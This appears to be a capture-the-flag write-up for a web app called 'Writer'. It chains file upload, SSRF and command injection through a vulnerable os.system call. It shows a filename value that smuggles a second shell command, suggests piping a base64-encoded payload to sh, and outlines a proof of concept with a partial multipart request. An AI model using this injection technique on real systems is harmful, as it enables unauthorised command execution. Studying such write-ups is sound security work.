 ### File Upload & SSRF && Command Injection

**Now we can**:

1. upload file from local file: able to change filename -> upload file with customized name
2. add story function: file upload & ssrf -> visit local & remote resource

**System Command Injection**:

```python
os.system("mv {} {}.jpg".format(local_filename, local_filename))
```

If the local_filename can be customized, then the executed command could be `mv file.jpg;ping -c 1 <ip>; `. For correctly execute injected commands, we can use base64 to encode the payload, like `echo 'xxx' | base64 -d | sh`.

**POC**:

1. add story to upload a local file and change the filename with payload of system command injection
2. use ssrf to visit local uploaded image file and the `writer/__init__.py` code would execute os.system function to trigger the cmd injection

![image-20240206205733903](./Writer.assets/image-20240206205733903.png)

```console
-----------------------------118533453010020168263738670579
Content-Disposition: form-data; name="author"

qwe
-----------------------------118533453010020168263738670579
Content-Disposition: form-data; name="title"

im qwe
-----------------------------118533453010020168263738670579
Content-Disposition: form-data; name="tagline"

qwe
-----------------------------118533453010020168263738670579
Content-Disposition: form-data; name="image"; filename=""
Content-Type: image/png


-----------------------------118533453010020168263738670579
```